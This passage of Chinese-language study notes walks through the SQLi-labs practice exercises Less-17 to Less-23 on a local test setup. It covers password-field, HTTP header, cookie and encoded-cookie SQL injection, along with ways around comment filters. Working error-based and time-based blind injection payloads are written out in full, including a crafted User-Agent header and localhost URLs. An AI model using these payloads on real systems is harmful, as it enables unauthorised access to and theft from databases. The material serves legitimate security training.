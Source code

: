 1. 在 User Name 中输入已经存在的账号

2. 在 New Password 中输入密码，并且插入 SQL 语句。

3. 应用：

    `uname=admin&passwd=1' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) -- -&Submit=Submit`

## 10. Less-18~19（HTTP 请求头注入）

1. 登录成功后界面返回 User-Agent 或 Referer 的内容，考虑是 HTTP 请求头注入。

2. 判断闭合后（注释后面语句后），报 `Column count doesn't match value count at row 1` 错误。说明系统中的 SQL 语句是 Insert 语句。

3. 对于 Insert 语句，一般情况下都是

    `insert into 表名(列名1, 列名2, ..., 列名n) values('值1', ..., '值n');`

    注入点也一般是在 values 中。

    构造其中一个值，写成：

    `'值1' SQL 注入语句 or '1'='1` 来注入。

    例如：

    `User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0 ' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) or '1'='1`

    99.0 后面的单引号闭合 values 中自带的一个，然后植入 SQL 语句，最后用 `or '1'='1` 闭合后面自带的单引号（注意这里不能使用注释符注释后面，否则会报列数不匹配的错误）

4. 结果![image-20220408150614100](image-20220408150614100.png)

## 11. Less-20(Cookie 注入)

1. 登录成功后，注入点在 Cookie，因此对 Cookie 进行注入即可（这里是 Query 注入）。

## 12. Less-21~22（编码）

1. Cookie 注入中，Cookie 被编码（base64），因此注入语句也要进行编码。

## 13. Less-23（注释符过滤）

1. 当注释符被过滤时（例如 `#`，`-- -` 等），此时需要构造 `and/or '1'='1'` 这种语句来闭合符号。

2. 例如（这题有错误回显，因此使用报错注入）：

    `http://localhost/sql/Less-23/?id=1' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) and '1'='1`

    时间盲注如下：

    `http://localhost/sql/Less-23/?id=1' and if(ascii(left((select database()), 1)) = 115, sleep(5), null) and '1'='1`

3. 结果如下：

    ![image-20220408154545455](image-20220408154545455.png)

